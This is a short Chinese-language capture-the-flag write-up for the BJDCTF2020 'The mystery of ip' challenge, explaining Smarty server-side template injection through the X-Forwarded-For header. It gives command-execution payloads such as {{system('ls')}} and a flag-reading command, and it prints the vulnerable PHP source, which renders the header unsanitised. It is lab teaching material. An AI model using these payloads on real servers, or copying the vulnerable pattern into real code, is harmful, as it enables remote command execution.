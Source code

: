 ### [BJDCTF2020]The mystery of ip

----

> 基于xff的模板注入
>
> 这个是php的smarty注入----可以通过{$smarty.version}查到版本

<img src="https://gitee.com/bx33661/image/raw/master/path/image-20241011173937368.png" style="zoom:50%;" />

抓包测试：

![2af3ad8b9abd9f3c8d2c2365664a4c4](https://gitee.com/bx33661/image/raw/master/path/2af3ad8b9abd9f3c8d2c2365664a4c4.png)

这个可以直接执行命令：

```
{{system("ls")}}
{{system(cat /flag)}}
```



题目源代码如下：

```php
<?php
    require_once('header.php');
    require_once('./libs/Smarty.class.php');
    $smarty = new Smarty();
    if (!empty($_SERVER['HTTP_CLIENT_IP'])) 
    {
        $ip=$_SERVER['HTTP_CLIENT_IP'];
    }
    elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
    {
        $ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
    }
    else
    {
        $ip=$_SERVER['REMOTE_ADDR'];
    }
    //$your_ip = $smarty->display("string:".$ip);
    echo "<div class=\"container panel1\">
                <div class=\"row\">
                <div class=\"col-md-4\">    
                </div>
            <div class=\"col-md-4\">
                <div class=\"jumbotron pan\">
                    <div class=\"form-group log\">
                        <label><h2>Your IP is : ";
    $smarty->display("string:".$ip);
    echo "            </h2></label>
                    </div>        
                </div>
            </div>
                <div class=\"col-md-4\">    
                </div>
                </div>
            </div>";
?>

```

